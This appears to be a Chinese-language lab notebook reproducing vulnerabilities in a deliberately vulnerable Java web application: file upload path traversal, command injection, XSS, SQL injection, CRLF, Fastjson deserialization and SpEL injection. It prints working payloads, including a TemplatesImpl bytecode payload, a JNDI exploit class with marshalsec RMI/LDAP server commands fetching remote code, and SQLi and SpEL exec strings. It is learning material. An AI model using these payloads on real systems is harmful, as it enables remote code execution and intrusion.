[TOC]

# File Upload

**uploadPicture()函数**

这段代码我最多可以上传一个带木马的图片上去，之后就不知道该咋办了。

本来一开始我觉得可以在上传的中间进行文件读取，然后生成一个新的木马文件，后面才发现，他中间新建的文件有一个UUID，并且文件名是UUID+后缀名，因为无法猜测UUID从而导致无法访问中间生成的文件。

这部分代码的后缀检验也比较强，是白名单检验，导致根本无法发送什么其他的东西上去。

最后那个检验是否是image的也很强大，导致必须得要图片打底，否则根本传不上去。

所以试了很多次，最终也就传了一个带木马的图片上去。

最多最多也就可以实现路径穿透。但是貌似没法解析，因为后缀只能是图片的后缀。

**singleFileUpload()函数**

我都准备开始漏洞复现了，忽然看到了上面有一个singleFileUpload()的函数，这个要post文件到/file/upload地址才行。因为每次提交都是提交到/file/upload/picture的地址上面，导致这个函数都被我忽略了。

我不知道这个函数写在这里是干嘛的，难道这才是有bug的那段代码？总之我一看这段代码就知道这个可以进行任意文件上传。还可以进行路径穿透，传到自己想要的任何文件夹。

唯一要做的就是用burp抓一下包，更改一下路径。或者从/file/路径进去，这个地方是对应的这个函数。

文件名的更改，比如这样：../../../../where you want to upload/shell.jsp

# CommandInject

我大概看懂了，这段代码前两个函数并没有进行过滤，导致可以用`; | &`去进行命令分割。但是最后那个函数使用了`SecurityUtil.cmdFilter()`函数，导致了这些东西都被过滤，也就不能使用了。

但是由于我是在windows的机器上面跑的代码，以至于不能正确的执行命令。



从这里可以看到是直接将字符串拼接，并没有其他操作。

改掉代码，可以实现windows上的命令执行。



# RCE

这个漏洞也是非常简单啊，因为没有任何的过滤。



上面就是执行结果。

我们来观察源码，可以发现输入的cmd直接就被执行了，没有任何的过滤。



# XSS

1. 反射型XSS。

    

    这个直接返回。

    所以可以构造payload：`?xss=<script>alert(1)</script>`

2. 储存型XSS。

    这个也是放到cookie里面就直接返回了。

    

3. 

    乍一看，没看懂这是个啥玩意儿。

    运行了一下。

    

    哦，原来这个是要把xss作为cookie的值传入。

4. safe

    

    这个是安全的，因为本来网页上就啥也没有，又将这些特殊字符全给过滤了，也就没有xss漏洞了。

# SQLI

* 路径：/sqli/jdbc/vuln



这里可以看到是直接进行的字符串拼接。

运行的结果也显示了这一点。


* 路径：/sqli/jdbc/sec

    

    可以看到这里不再是直接添加了，而是用了占位符来添加。

    这里添加的规则是（多次实验得出）：

    将username里面的每个单引号全部变成两个，然后在最外面加上单引号。（如xx''xx=>'xx''''xx'）

    这样也就杜绝了爆库的可能，因为无法封闭了。

* 路径：/sqli/mybatis/vuln01

   
  
  
  
  这个东西本质上还是直接拼接。
  
* 路径：/sqli/mybatis/vuln02

    

   

   好家伙，直接没找到实现在哪。

   问了问坤哥，坤哥说学学mybatis。

   然后才找到配置。

   

   

   从这个文件中可以看到，是直接将string类型的参数传了进来，然后在外面加了两个百分号和两个单引号。

   

   这个[文档](https://blog.csdn.net/JSON_ZJS/article/details/102558559)说明了两个百分号的用途--直接拼接，但是还是会在两边加上百分号。

   所以我们在后面直接将sql语句注释掉就好了，payload：`?username=' or '1'='1'%23`

   这里这个`%23`不能写成`#`，因为是在地址栏输入的，需要url编码，否则就变成网页的锚了。

   执行结果：

   

* 路径：/sqli/mybatis/orderby/vuln03

  
  
  
  
  
  
  看代码觉得应该就是直接替换，查询结果还是升序排列。
  
  感觉没啥，就是全部查找，输个1进去就能出全部结果。
  
* 路径：/sqli/mybatis/sec01
  
  
  
  可以看到这里用的是`#`，根据[文档](https://blog.csdn.net/JSON_ZJS/article/details/102558559)最后转换出来用的是占位符`?`。
  
  
  
  这里的问号和路径：/sqli/jdbc/sec的那个是一样的。
  
* 路径：/sqli/mybatis/sec02
  
  
  
  同理，问号占位符。
  
* 路径：/sqli/mybatis/sec03

    

    

    这个东西根本就没有输入的地方，就直接返回结果。

    结果是根据id升序排序的第一个。

* 路径：/sqli/mybatis/orderby/sec04

    

    这里是传入参数的时候过滤了一下。

    

    

    严格限制用户输入只能包含`a-zA-Z0-9_-.`字符

    所以还是安全的。

# CRLF Injection

[CRLF注入原理](https://www.cnblogs.com/mysticbinary/p/12560080.html)



尝试了一下，在cookie这里注入即test3是有安全检查的，这里会报错。



在generateHeader函数这里会报错。





并且在test1和test2的位置，将`%0a`替换成空格，也会将`%0d`替换成空格。（但是我没有找到替换代码的位置。）

https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Access_control_CORS)

# FastJson

[fastjson反序列化漏洞原理及利用](https://www.cnblogs.com/sijidou/p/13121332.html)

### 利用com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl

> `TemplatesImpl类`，而这个类有一个字段就是`_bytecodes`，有部分函数会根据这个`_bytecodes`生成java实例，这就达到`fastjson通过字段传入一个类`，再通过这个类被生成时执行构造函数。

POC:(在windows上打开计算器)

```java
package com.fastjson.demo;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class poc extends AbstractTranslet {

    public poc() throws IOException {
        Runtime.getRuntime().exec("calc.exe");
    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
    }

    @Override
    public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] haFndlers) throws TransletException {

    }

    public static void main(String[] args) throws Exception {
        poc t = new poc();
    }
}
```

想要打开这个poc，并且生成.class文件，需要添加依赖：



添加完之后，重新load maven。



或者这里load：



环境安装好之后，运行，就可以打开计算器。

之后需要序列化，生成fastjson.java里面的main函数的那种payload。

paylaod中的_bytecodes属性是刚刚运行poc.java后idea自动生成的poc.class的base64编码。

我写了一个python代码去生成payload：

```python
import base64

file = open("poc.class", "rb")
out = base64.b64encode(file.read())
file.close()
result = '{"@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl","_bytecodes":["' + str(out, "utf-8") + '"],"_name":"a.b","_tfactory":{ },"_outputProperties":{ },"_version":"1.0","allowedProtocols":"all"}'
print(result)
```

生成好的paylaod如下：

```
{"@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl","_bytecodes":["yv66vgAAADQANAoAAgADBwAEDAAFAAYBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQAGPGluaXQ+AQADKClWCgAIAAkHAAoMAAsADAEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwgADgEACGNhbGMuZXhlCgAIABAMABEAEgEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsHABQBABpvcmcvam95Y2hvdS9jb250cm9sbGVyL3BvYwoAEwADAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBABxMb3JnL2pveWNob3UvY29udHJvbGxlci9wb2M7AQAKRXhjZXB0aW9ucwcAHQEAE2phdmEvaW8vSU9FeGNlcHRpb24BAAl0cmFuc2Zvcm0BAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIZG9jdW1lbnQBAC1MY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTsBAAhpdGVyYXRvcgEANUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7AQAHaGFuZGxlcgEAQUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQByKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO1tMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAJaGFGbmRsZXJzAQBCW0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7BwAqAQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQAEbWFpbgEAFihbTGphdmEvbGFuZy9TdHJpbmc7KVYBAARhcmdzAQATW0xqYXZhL2xhbmcvU3RyaW5nOwEAAXQHADEBABNqYXZhL2xhbmcvRXhjZXB0aW9uAQAKU291cmNlRmlsZQEACHBvYy5qYXZhACEAEwACAAAAAAAEAAEABQAGAAIAFgAAAEAAAgABAAAADiq3AAG4AAcSDbYAD1exAAAAAgAXAAAADgADAAAADQAEAA4ADQAPABgAAAAMAAEAAAAOABkAGgAAABsAAAAEAAEAHAABAB4AHwABABYAAABJAAAABAAAAAGxAAAAAgAXAAAABgABAAAAEwAYAAAAKgAEAAAAAQAZABoAAAAAAAEAIAAhAAEAAAABACIAIwACAAAAAQAkACUAAwABAB4AJgACABYAAAA/AAAAAwAAAAGxAAAAAgAXAAAABgABAAAAGAAYAAAAIAADAAAAAQAZABoAAAAAAAEAIAAhAAEAAAABACcAKAACABsAAAAEAAEAKQAJACsALAACABYAAABBAAIAAgAAAAm7ABNZtwAVTLEAAAACABcAAAAKAAIAAAAbAAgAHAAYAAAAFgACAAAACQAtAC4AAAAIAAEALwAaAAEAGwAAAAQAAQAwAAEAMgAAAAIAMw=="],"_name":"a.b","_tfactory":{ },"_outputProperties":{ },"_version":"1.0","allowedProtocols":"all"}
```

将paylaod复制到fastjson.java的main函数里面（注意转义），然后运行main函数就可以打开计算器了。

这里用burp抓包，用POST的方式传一个json的数据上去，看看能不能打开计算器：

并不能。

> 这个漏洞利用方法必须要存在`Feature.SupportNonPublicField`设置（即允许private对象传入）

就像在main函数里面设置的那样，而网站用的函数并没有设置`Feature.SupportNonPublicField`，所以不行。

而更改代码后，成功打开计算器。





### 通过jndi注入

[payload来源](https://www.jianshu.com/p/35b84eda9292)

> **这里漏洞利用要明确思路：**
>
> 攻击者在本地启一个`rmi`的服务器，上面挂上恶意的payload
>
> 让被攻击的目标反序列化特定的类，这个类最终会调用`lookup()`函数，导致`jndi`接口指向我们的`rmi服务器`上的恶意payload

准备Exp:

```java
import java.lang.Runtime;
import java.lang.Process;

public class Exp {

    public Exp() {
        try{
            // 要执行的命令
            String commands = "calc";
            Process pc = Runtime.getRuntime().exec(commands);
            pc.waitFor();
        } catch(Exception e){
            e.printStackTrace();
        }

    }

    public static void main(String[] argv) {
        Exp e = new Exp();
    }

}
```

然后编译（被攻击者的java版本和编译Exp.java要用同一个版本，这里用的是8u112）：

```
D:\Java\jdk1.8.0_112\bin\javac.exe Exp.java
```

得到Exp.class。

接下来就是在本地启动rmi服务器。

这里用别人推荐的[marshalsec](https://github.com/mbechler/marshalsec)。

需要用maven进行生成jar包，进入`marshalsec`目录后：（可能需要很久，要下包）

```
mvn clean package -D maven.test.skip=true
```

* 如果windows找不到mvn命令，可以参考[这篇文章](https://blog.csdn.net/joker8023joker/article/details/102802721)。

* 如果提示找不到jdk或者jre，可以参考[这篇文章](https://blog.csdn.net/qq_36688143/article/details/82227014)。

生成好了之后，在target目录下面可以找到这两个文件。



下面那个文件是之后需要的，可以到处移动。

接下来就是启动rmi服务器了，按照文章里的有两个步骤：

1. 使用python的`SimpleHTTPServer`模块在刚刚编译好的`Exp.class`目录下开一个web服务

    这里可以将exp.class和exp.java移到另外的地方。

    ```
    python2 -m SimpleHTTPServer 8000
    ```

    

不要看这里是0.0.0.0，其实是127.0.0.1

注：这里的python模块也可以用phpstudy代替。

2. 之后利用`marshalsec`,启动`rmi`服务或者`ldap`服务

    ```
    java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer  http://127.0.0.1:8000/#Exp
    java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.101.6:8000/#Exp
    ```

    


payload:
```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://192.168.101.6:1099/Exp","autoCommit":true}
```

```json
{"name":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"x":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://192.168.101.6:1099/Exp","autoCommit":true}}";
```

```json
{
    "a": {
        "@type": "java.lang.Class", 
        "val": "com.sun.rowset.JdbcRowSetImpl"
    }, 
    "b": {
        "@type": "com.sun.rowset.JdbcRowSetImpl", 
        "dataSourceName": "rmi://x.x.x.x:1099/Exp", 
        "autoCommit": true
    }
}
```

所有的`rmi://x.x.x.x:xxx/Exp`都可以改成`ldap://x.x.x.x:xxx/Exp`的形式。

这里注意需要[jdk1.8.0_112版本(提取码0000)](https://pan.baidu.com/s/1UpQ06ZnHLjlFRXu_rVsB5Q)，或者以下版本。

执行成功：



### 漏洞原理


# SpEL

[由浅入深SpEL表达式注入漏洞](http://rui0.cn/archives/1043)

**payload：**`?expression=T(java.lang.Runtime).getRuntime().exec("calc")`

> SpEL中可以使用特定的Java类型，经常用来访问Java类型中的静态属性或静态方法，需要用`T()`操作符进行声明。括号中需要包含类名的全限定名，也就是包名加上类名。
> 因此我们通过 `T()` 调用一个类的静态方法，它将返回一个 `Class Object`，然后再调用相应的方法或属性。

**漏洞复现：**

```java
public String rce(String expression) {
    ExpressionParser parser = new SpelExpressionParser();
    // fix method: SimpleEvaluationContext
    return parser.parseExpression(expression).getValue().toString();
}
```

其中接口`SqelExpressionParser`负责解析表达式字符串。之后接口`parseExpression`负责评估以前定义的表达式字符串。上述代码含义为首先创建`SpelExpressionParser`解析表达式，之后放置表达式，最后**通过`getValue`方法执行表达式**，默认容器是spring本身的容器：`ApplicationContext`。

